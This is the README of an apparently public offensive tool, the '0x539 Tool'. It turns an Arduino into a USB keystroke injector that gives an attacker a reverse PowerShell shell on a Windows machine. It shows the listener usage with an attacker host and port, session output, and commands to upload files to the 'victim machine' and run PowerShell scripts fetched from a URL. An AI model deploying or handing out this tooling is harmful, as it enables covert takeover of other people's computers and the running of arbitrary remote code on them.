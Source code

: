 # 0x539 Tool

This project is to connect a windows maching using an arduino to a listening serverusing a port and a host through TCP.
 
*Note: A video tutorial will be added on the main* [Lear Hacking](https://www.youtube.com/channel/UCGj2tNcFld-_tCZLSkFe4ww) *Youtube channel soon!*

## Getting Started

Once the Arduino is plugged to the windows machine you'll have a powershell of that user.

### Prerequisites

To complete this complete this  you will first need to install the [Aduino IDE](https://www.arduino.cc/en/main/software), and a list of python packages.


```
pwn, argparse
```

### Installing

* Install the Arduino IDE.
* Install python on Linux:
```
sudo apt update
sudo apt-get install python3.8
```
* Install pwn

```
pip install pwn
# or
python3 pip install pwn
```

## Running the tool

After cloning this repositort into your linux machine.

### Run the script listener

To see the help menu of the tool listener:

```
python3 listen-usb.py -h
```
```
usage: listen-usb.py [-h] [-debug] --lport LPORT --lhost LHOST --keyboard
                     KEYBOARD

0x539 tool. A tool to connect to thepowershell reversed shell from arduino mini
pro.

optional arguments:
  -h, --help           show this help message and exit
  -debug               debug mode will keep the cmd window open"
  --lport LPORT        port example: 4444
  --lhost LHOST        host example: attackerwebsite.com (or an ip
                       198.23.44.132)
  --keyboard KEYBOARD  keyboard example: azerty (or qwerty)
```


### Example:

Running this next command will generate an Arduino C code, which is the exploit that gonna be uploaded to the Arduino (Im using Arduino pro mini atmega32u4).

```
python3 listen-usb.py --lport 9001 --lhost 192.168.183.20 --keyboard qwerty
```
This will keep listening on the specified port and generate a new file called arduino_qwerty.c .
```
# fist terminal
kali@kali:~/Documents/tools/github-proj/usb-reverse$ python3 listen-usb.py --lport 9001 --lhost 192.168.183.20 --keyboard qwerty
[+] Creating file: arduino_qwerty.c
[+] File created check it on the current path
[+] Listening..
[+] Trying to bind to 0.0.0.0 on port 9001: Done
[┐] Waiting for connections on 0.0.0.0:9001

```
```
# second terminal
kali@kali:~/Documents/tools/github-proj/usb-reverse$ ls
arduino_qwerty.c  exploits  listen-usb.py  README.md
```
Next thing to do is compile the Arduino c file in the Arduino IDE mentioned earlier, im not gonna go through that cause there's a plenty of tutorials out there to compile an Arduino c code and upload, so just google that, and ill leave a video explaining that later on.

Now once you plug in the Arduino on the usb port, you will be connected to the tool

```
kali@kali:~/Documents/tools/github-proj/usb-reverse$ python3 listen-usb.py --lport 9003 --lhost 192.168.183.20 --keyboard qwerty
[+] Creating file: arduino_qwerty.c
[+] File created check it on the current path
[+] Listening..
[+] Trying to bind to 0.0.0.0 on port 9003: Done
[+] Waiting for connections on 0.0.0.0:9003: Got connection from 192.168.183.1 on port 58629

      ___   ___   ___  _____   ____     ___
     / _ \  \  \ /  / | ____| |___ \   / _ \
    | | | |  \  V  /  | |__     __) | | (_) |
    | | | |   >   <   |___ \   |__ <   \__, |
    | |_| |  /  .  \   ___) |  ___) |    / /
     \___/  /__/ \__\ |____/  |____/    /_/

     Tool.

!0x53O>
```

Now that you're connected to the tool, you can interact with the powershell and use the tool commands.

## Tool brief

Type help to get the help menu

```

commands:
    ps              connect to powershell
    upload          download file
    enumerate       enumerate windows vulnerabilities
    urlexec         execute a powershell script from a link
    help            open this help menu
    exit            quit this tool
```

### ps command
Gives you a prompt to powershell on that windows.

### upload command
Uploads a file to the victim machine.
```
usuage:
	upload <link> <filename>
example:
	uplaod https://raw.githubusercontent.com/absolomb/WindowsEnum/master/WindowsEnum.ps1 windowsEnum.ps1
```
### enumerate command
Enumerate the windows privileges and informations.

### urlexec
Execute a powershell script from a url

## Creator

* This tool was Created by [l0x539](https://0x539.co).

